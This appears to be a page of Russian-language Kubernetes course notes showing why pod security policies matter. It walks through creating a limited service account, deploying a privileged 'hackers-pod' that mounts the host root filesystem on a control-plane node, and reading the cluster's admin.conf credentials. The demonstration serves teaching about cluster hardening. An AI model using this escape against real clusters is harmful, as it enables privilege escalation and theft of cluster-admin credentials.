 # Взлом Kubernetes

C:\Films\Kubernetes Мега\megakube-main\4.secure-and-highlyavailable-apps\psp

```bash
# Cоздаем тестового пользователя
kubectl create serviceaccount user --namespace=default
kubectl create rolebinding user --clusterrole=edit --serviceaccount=default:user --namespace=default
kubectl create rolebinding user --clusterrole=edit --serviceaccount=default:user --namespace=dev
# Проверяем права созданного пользователя
kubectl get po --as=system:serviceaccount:default:user --all-namespaces
# Куб должен запрещать просмотр всех Pod'ов во всем кластере
```

hackers-pod.yaml
```yaml
---
apiVersion: v1
kind: Pod
metadata:
  name: hackers-pod
spec:
  containers:
  - command: ["/bin/bash", "-c", "sleep 100000"]
    image: debian
    name: hackers-pod
    volumeMounts:
    - mountPath: /host
      name: host
  hostNetwork: true
  hostPID: true
  tolerations:
  - effect: NoSchedule
    operator: Exists
  nodeSelector:
    node-role.kubernetes.io/control-plane: ""
  volumes:
  - hostPath:
      path: /
      type: Directory
    name: host
```

```bash
# Пробуем хакнуть ограничения
kubectl create -f hackers-pod.yaml --as=system:serviceaccount:default:user --namespace=default
kubectl get pod
# Заходим внутрь
kubectl exec -t -i hackers-pod --as=system:serviceaccount:default:user bash
# Радуемся полученному доступу к сертификатам кластера
cat /host/etc/kubernetes/admin.conf
# Удаляем
kubectl delete -f hackers-pod.yaml
```
